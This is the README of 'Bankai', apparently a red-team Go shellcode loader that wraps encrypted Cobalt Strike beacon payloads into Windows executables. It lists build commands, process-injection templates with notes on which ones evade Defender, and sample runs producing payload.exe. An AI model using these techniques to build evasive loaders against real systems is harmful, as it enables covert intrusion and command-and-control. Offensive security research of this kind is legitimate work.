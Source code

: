 <p align="center">
    <br>
        <img src=img/bankai.jpg >
    <br>
</p>

# Bankai
Another Go shellcode loader designed to work with Cobalt Strike raw binary payload. I created this project to mainly educate myself learning Go and directly executing shellcode into the target Windows system using various techniques. 

<b>Encryption</b> - I implemented a simple payload encryption process (IV --> AES --> XOR --> Base64) that I learned while studying for [SLAE32](https://bigb0ss.medium.com/expdev-custom-go-crypter-fb8f9bac0fe8). This is mainly for protecting Cobalt Strike payload when it's moved over to the target host. The final compiled payload will include a decrypt function within.

<b>Templates</b> - Templates are the skeleton scripts to generate a final payload per each technique. 

## Installation
```
git clone https://github.com/bigb0sss/bankai.git
GO111MODULE=off go build bankai.go
```

## Usage & Example
Generate a Cobalt Strike payload:

<p align="center">
    <br>
        <img src=img/cobalt.png>
    <br>
</p>

```
./bankai -h                       

     _                 _         _ 
    | |               | |       (_)
    | |__   __ _ _ __ | | ____ _ _ 
    | '_ \ / _' | '_ \| |/ / _' | |
    | |_) | (_| | | | |   < (_| | |
    |_.__/ \__,_|_| |_|_|\_\__,_|_|
                        [bigb0ss]

    [INFO] Another Go Shellcode Loader

 
    Required:
    -i            Binary File (e.g., beacon.bin)
    -o            Payload Output (e.g, payload.exe)
    -t            Payload Template (e.g., win32_VirtualProtect.tmpl)
    -a            Arch (32|64)
    
    Optional:
    -h            Print this help menu
    -p            PID

    Templates:                                        Last update: 06/07/21
    +--------------------------------------+-----------+------------------+
    | Techniques                           | PID       | Bypass Defender  |
    +--------------------------------------+-----------+------------------+
    | win32_VirtualProtect.tmpl            |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateFiber.tmpl               |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThreadNative.tmpl  | Required  |        Yes       | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThread.tmpl              |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EtwpCreateEtwThread.tmpl       |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_Syscall.tmpl                   |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadpoolWait.tmpl      |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumerateLoadedModules.tmpl    |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumChildWindows.tmpl          |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThread.tmpl        | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_RtlCreateUserThread.tmpl       | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadNative.tmpl        |           |        No        | 
    +--------------------------------------+-----------+------------------+

    Example:

    ./bankai -i beacon.bin -o payload.exe -t win64_CreateThread.tmpl -a 64
    [INFO] Key: SymE9GQBtyHL4IAq5Pm6r3b8I7PJB9l0
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateThread.tmpl
    [INFO] InputFile: beacon.bin
    [INFO] OutputFile: payload.exe

    ./bankai -i beacon64.bin -o payload.exe -t win64_CreateRemoteThread.tmpl -a 64 -p 7720
    [INFO] Key: 3mOL2Ne5XIW4xCieiR7cPmHtw4o737Do
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateRemoteThread.tmpl
    [INFO] InputFile: beacon64.bin
    [INFO] OutputFile: payload.exe
```

## Credits / Acknowledgments / References
All of the work is inspired and done by the following researchers/projects:
* [go-shellcode](https://github.com/brimstone/go-shellcode) by brimstone
* [go-shellcode](https://github.com/Ne0nd0g/go-shellcode) by Ne0nd0g
* [GoPurple](https://github.com/sh4hin/GoPurple) by sh4hin
* Go Template - https://dev.to/kirklewis/go-text-template-processing-181d

## Todo
[ ] Add [AlternativeShellcodeExec](https://github.com/S4R1N/AlternativeShellcodeExec) techniques that Ali and Alfaro found
[ ] Test these shellcodes with modified malleableC2 profiles 
[ ] Add [BananaPhone](https://github.com/C-Sto/BananaPhone) for templates